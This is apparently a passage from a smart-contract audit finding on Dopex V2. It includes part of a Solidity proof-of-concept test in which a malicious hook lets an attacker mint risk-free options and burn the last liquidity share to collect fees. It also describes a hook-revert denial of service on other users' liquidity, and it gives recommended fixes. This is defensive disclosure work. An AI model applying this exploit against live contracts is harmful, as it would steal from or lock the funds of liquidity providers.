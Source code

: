 ```solidity
            DopexV2OptionMarketV2.ExerciseOptionParams({
                optionId: 1,
                swapper: swappers,
                swapData: swapData,
                liquidityToExercise: liquidityToExercise
            })
        );
        vm.stopPrank();
        //Attacker received profits
        assertGt(token0.balanceOf(attacker), balanceBeforeExercise);

        //after 100 blocks malicious hook can withdraw the last wei of LPs which will get him the fees paid for the option earlier
        vm.roll(block.number + 99);

        vm.prank(address(maliciousHook));
        positionManager.burnPosition(uniV3Handler, abi.encode(UniswapV3SingleTickLiquidityHandlerV2.BurnPositionParams({
            pool: pool,
            hook: address(maliciousHook),
            tickLower: -76260,
            tickUpper: -76250,
            shares: 1
        })));
    }
```

Additionally, because the liquidity used when minting the option is liquidity from other users, we could make the malicious `hook` revert on [`onPositionUnUse()`](https://github.com/dopex-io/dopex-v2-clamm/blob/cb11bee1fa96da657f69a02f7e205138e567b0df/src/handlers/UniswapV3SingleTickLiquidityHandlerV2.sol#L746) which would not let the Dopex team settle the option, resulting in the liquidity of other users not added back thus would revert when they try to withdraw. 

Dopex team would have to call the [`emergencyWithdraw()`](https://github.com/dopex-io/dopex-v2-clamm/blob/cb11bee1fa96da657f69a02f7e205138e567b0df/src/handlers/UniswapV3SingleTickLiquidityHandlerV2.sol#L1245) to reimburse them.

#### Impact

High. Allows an attacker to mint risk-free options at the expense of other users and DOS their liquidity.

#### Recommendation

Consider 2 changes:
- Moving the [`if ((tki.totalLiquidity - tki.liquidityUsed) < _params.liquidityToUse)` on line 698](https://github.com/dopex-io/dopex-v2-clamm/blob/cb11bee1fa96da657f69a02f7e205138e567b0df/src/handlers/UniswapV3SingleTickLiquidityHandlerV2.sol#L698) check after calling the `hook`.
- Adding a check in [`withdrawReserveLiquidity()`](https://github.com/dopex-io/dopex-v2-clamm/blob/cb11bee1fa96da657f69a02f7e205138e567b0df/src/handlers/UniswapV3SingleTickLiquidityHandlerV2.sol#L610) that make sure we can't withdraw the liquidity used.

#### Developer Response
